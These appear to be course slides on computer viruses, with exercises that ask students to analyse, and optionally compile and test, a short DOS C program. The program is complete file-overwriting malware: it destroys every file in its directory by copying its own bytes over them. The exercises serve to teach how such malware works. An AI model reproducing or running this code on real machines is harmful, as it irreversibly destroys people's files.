
# Virus

> \[...\] Viruses often **require some sort of user action** (e.g.,
> opening an email attachment or visiting a malicious web page) to
> spread.
>
> \[...\] A virus is simply a computer program--it **can do anything
> that any other program you run on your computer can** do. Some viruses
> are designed to deliberately damage files, and others may just spread
> to other computers. \[[^1]\]

---

# Exercise 3.2 (:handshake:)

1. Analyze the following code and explain what it does when executed on
   a computer.

```text
#include<stdio.h> #include<io.h> #include<dos.h>
#include<dir.h> #include<conio.h> #include<time.h>
FILE *virus,*host; int done,a=0;
unsigned long x; char buff[2048]; struct ffblk ffblk; clock_t st,end;
void main() { st=clock(); clrscr(); done=findfirst("*.*",&ffblk,0);
while(!done) { virus=fopen(_argv[0],"rb"); host=fopen(ffblk.ff_name,"rb+");
if(host==NULL) goto next; x=89088; printf("Infecting %s\n",ffblk.ff_name,a);
while(x>2048) { fread(buff,2048,1,virus); fwrite(buff,2048,1,host); x-=2048; }
fread(buff,x,1,virus); fwrite(buff,x,1,host); a++;
next: { fcloseall(); done=findnext(&ffblk); } }
printf("DONE! (Total Files Infected= %d)",a); end=clock();
printf("TIME TAKEN=%f SEC\n", (end-st)/CLK_TCK); getch(); }
```

:put_litter_in_its_place: <https://pastebin.com/0nuAgZTM> _<small>(mild spoilers from syntax highlighting)</small>_

---

# Exercise 3.3 (_optional_ :house:)

1. Compile the virus
   <small>(https://www.gohacking.com/compile-c-programs/)</small>
2. Test the virus
   <small>(<https://www.gohacking.com/create-computer-virus/>)</small>
   in a newly created folder with nothing but test files in it

_:skull_and_crossbones: NOTE: The files infected by this virus are
destroyed completely and cannot be recovered. So, always test the virus
in a new folder by placing some sample files._

<hr>


[^1]: https://www.us-cert.gov/publications/virus-basics
[^2]: https://www.us-cert.gov/sites/default/files/publications/spywarehome_0905.pdf
[^4]: https://www.us-cert.gov/sites/default/files/publications/Ransomware_Executive_One-Pager_and_Technical_Document-FINAL.pdf
[^5]: https://www.zdnet.com/article/why-cryptocurrency-mining-malware-is-the-new-ransomware/
[^3]: https://www.us-cert.gov/ncas/tips/ST06-001